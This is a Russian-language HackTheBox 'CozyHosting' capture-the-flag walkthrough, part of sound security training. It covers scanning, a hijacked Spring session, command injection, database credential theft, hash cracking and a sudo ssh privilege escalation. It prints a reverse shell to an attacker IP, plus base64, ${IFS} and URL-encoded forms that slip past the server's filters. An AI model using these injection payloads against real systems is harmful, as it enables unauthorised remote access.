

# HackTheBox: CozyHosting

Используем Nmap для сканирования машины:
```sh
nmap -p- 10.10.11.230
```


```sh
nmap -sC -sV 10.10.11.230
```


Сразу по отчету Nmap замечаем, что не произведен редирект на `http://cozyhosting.htb`, поэтому добавим запись в файл **/etc/hosts** с указанным доменным именем:


Далее переходим на сайт:


Из всех доступных на начальной странице кнопок работает только кнопка входа, которая перемещает нас на соответствующую форму:


Сканируем сервис на наличие других директорий:


Обратим внимание на `/error` и содержимое, которое возвращается от него:


Данный шаблон присутствует в фреймворке **Spring**. Возможно, стоит посмотреть в сторону его эндпойнтов (https://docs.spring.io/spring-boot/docs/2.1.13.RELEASE/reference/html/production-ready-endpoints.html):


Основная директория, как следует из документации, на которую надо опираться - **/actuator/**, поэтому продолжим поиск директорий через gobuster:


Исследуем найденные эндпойнты:


Во-первых, мы находим сессию под неким **"kanderson"**. Во-вторых, обнаружимаем **/addhost** и **/executessh**

В куке меняем значение сессии (значение сессии пользователя kanderson) и успешно попадаем на страницу:


Находим **Cozy Scanner**, который тестирует подключение к хосту. Пробуем выяснить, уязвима ли данная форма к Command Injection:



А вот и тот самый **/executessh**:


> Не забываем подставлять в куки значение сессии от пользователя kanderson

Перенесем данный запрос в Repeater:


Способы выполнения команд при Command Injection:


Если подставить две одинарные косые кавычки, команда исполнится (+ перед команды надо разделить через символ - **;**)


Получили `uid=1001(app)`, значить, команда **id** была успешно выполнена (также работает и способ с `$(id))`. В таком случае, пробуем получить Reverse Shell:

```sh
1) bash -i >& /dev/tcp/10.10.14.48/4444 0>&1 (кодируем в base64) - YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC80NDQ0IDA+JjE=

2) echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC80NDQ0IDA+JjE="${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash - через echo и base64 -d декодируем уже на жерте команду для исполнения, затем команда bash исполняет декодированную команду

Используем ${IFS}, так как сервер не пропускает обычные пробелы
```

> Не забываем: nc -lvnp 4444 в отдельном терминале


Но тут почему-то наша команда не исполнилась. Причина заключалась в спец. символах от IFS. Просто прогоним все выражение через **url encoder** и вновь попробуем исполнить команду на стороне жертвы.

```sh
echo%24%7BIFS%7D%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC40OC80NDQ0IDA%2BJjE%3D%22%24%7BIFS%7D%7C%24%7BIFS%7Dbase64%24%7BIFS%7D-d%24%7BIFS%7D%7C%24%7BIFS%7Dbash
```


Пришел ответ **504 Gateway Time-out** и мы получили прямой доступ к жертве:


В директории **/app** находим файл с расширением **.jar**. Через сервер на питоне скачиваем его:


Открываем файл через **jd** и обнаруживаем логин и пароль для подключения к БД:


Подключаемся к БД и просматриваем таблицы:


Находим захэшированные пароли от пользователей. Через **hashid** узнаем алгоритм хэширования:


Через **hashcat** получаем пароль **manchesterunited** (-m 3200 - bcrypt):


Находим пользователя **josh** внутри системы, скорее всего это и есть **admin**, от которого мы узнали пароль:


Пробуем подключиться:


Забираем первый флаг:


Просматриваем, команды, которые нам доступны относительно sudo:


Нам доступна команда **ssh**. На GTFORBins находим способ повышения привилегий через данную команду и получаем рута, а вместе с ним и заключительный флаг:


